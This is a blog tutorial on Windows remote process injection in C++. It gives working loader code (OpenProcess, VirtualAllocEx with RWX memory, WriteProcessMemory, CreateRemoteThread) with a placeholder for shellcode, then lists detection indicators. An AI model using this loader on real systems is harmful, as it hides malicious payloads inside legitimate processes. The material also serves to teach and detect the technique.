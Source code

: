 ```yaml
---
title: Remote process injection
published: true
categories: [Malware dev, C++]
tags: [Malware dev, C++, Process injection]
author: Alejandro Rivera
pin: false
image:
  path: https://github.com/Krypteria/Offensive_CPP/assets/55555187/e7d5eef8-559c-4c02-b2a2-eeb0462fa334
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


This is the first post of a few that I will be publishing related to malware development (or attempt to) in C++. This series of posts have no pretension, my main goal is to publish my progress in this area as a blog and use them to consolidate my knowledge, if they can also be useful to someone else, good ^^. With all this clarified, this first post will deal with the remote process injection technique.

Remote process injection is one of the oldest injection techniques in existence and although it is not extremely sophisticated (due to the fact that in the past there were no security measures as effective in detecting this type of technique as modern EDRs) it is a good place to start this series to gain knowledge that will be necessary in more complex techniques (as they say in my country, you should not start the house from the roof).

Let's start with the basics, what does the remote process injection technique consist of? 

This technique consists, roughly speaking, of hiding the execution of a set of instructions within a legitimate process, trying to make the execution as unnoticed as possible. For example, let's take the following images:

![less suspicious binary](\assets\img\posts\remote_process_injection\sus_binary.png)

In this image we can see a custom binary that opens a cmd.exe process which in turn runs a conhost.exe. At first glance it looks quite suspicious. Now let's look at the next image:

![less suspicious binary](\assets\img\posts\remote_process_injection\less_sus_binary.png)

While it is true that we have the same scenario, (a binary running cmd.exe and in turn conhost.exe), this time it is not an ordinary binary, it is an operating system binary, which could raise doubts about its legitimacy.

Now that we have seen the potential of this technique, let's see how we can program it in C++ and what is the logic behind it.

Let's start, the first thing we have to do is to obtain a Handle of the process we want to use. A Handle of a process is nothing more than an identifier that allows us to interact with it, you can see it as the descriptor of a file if we were working with files. 

To obtain this Handle I will make use of the [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function of the Windows API (it is vital to familiarise ourselves with the official Windows documentation as we will spend many hours reading it).

```c++
DWORD pid = atoi(argv[1]);

HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);

if (hProcess == NULL){
    printf("%s Cannot get the handle to the process\n", err);
    return EXIT_FAILURE;
}

printf("%s Handle to the process obtained\n", ok);
```

Once we have obtained the Handle, we can start interacting with the process :). 

The next step is to allocate memory in the remote process to host our payload there. To do this, we will use the [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) function of the Windows API, another alternative could be the **NtAllocateVirtualMemory** function of the **Undocumented Windows API**. The choice of which function to use in the end will depend on the needs we have.

```c++
unsigned char shellcode[]="Your epic shellcode here";

LPVOID bAddress = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

if(bAddress == NULL){
    printf("%s Cannot allocate memory for the shellcode\n", err);
    return EXIT_FAILURE;
}

printf("%s Memory allocated succesfully at %p\n", ok, bAddress);
```

The VirtualAllocEx function returns a pointer to the beginning of the memory space we have reserved. We will use this pointer to tell the [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) function where we want to write the contents of the shellcode variable. 

```c++
if(WriteProcessMemory(hProcess, bAddress, shellcode, sizeof(shellcode), NULL) == 0){
    printf("%s Cannot write on memory, error %s\n", err, GetLastError());
    return EXIT_FAILURE;
}

printf("%s Memory written succesfully\n", ok);
```

Once we have the shellcode content written in the process memory, the only thing we need to do to execute it is simply to create a Thread that starts its execution at the memory address where the shellcode is hosted. To do this, we will again use the pointer to the memory address returned by VirtualAllocEx and the Handle obtained by OpenProcess in the [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) function.

```c++
HANDLE hRemote = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)bAddress, NULL, 0, NULL);

if(hRemote == NULL){
    printf("%s Cannot get the handle to the remote process\n", err);
    return EXIT_FAILURE;
}

printf("%s Remote thread executed succesfully\n", ok);

CloseHandle(hRemote);
CloseHandle(hProcess);

return EXIT_SUCCESS;
```

Once we have completed these steps, we compile the program and we will have an executable capable of performing this technique. The complete code can be found in the [Offensive CPP](https://github.com/Krypteria/Offensive_CPP) repository on my Github

Let's see what the execution of the complete code looks like:
![remote process injection](\assets\img\posts\remote_process_injection\remote_process_injection.png)

As you can see in the image, we have managed to inject the shellcode in the process notepad.exe, if we go to the memory address reserved by VirtualAllocEx we can observe several things

- The memory space has been reserved as type **Private: Commit**
- The memory space has **RWX permissions**
- The shellcode has been written correctly ( as a payload created by msfvenom, it is obfuscated).

These three observations already show us some of the problems of this technique in terms of evading modern security measures. Just with what we have discussed in the previous paragraph we can already extract the following IOCs (Indicators of Compromise):

- Memory allocation using win32 API calls
- Creation of a Thread that points to a private memory space
- Private memory space with execution permissions

There are many more IOCs you can find in this post by [Mitre](https://attack.mitre.org/techniques/T1055/)

With all of this, it is fundamental to understand this technique for future sophistications or more advanced techniques that I will publish :)
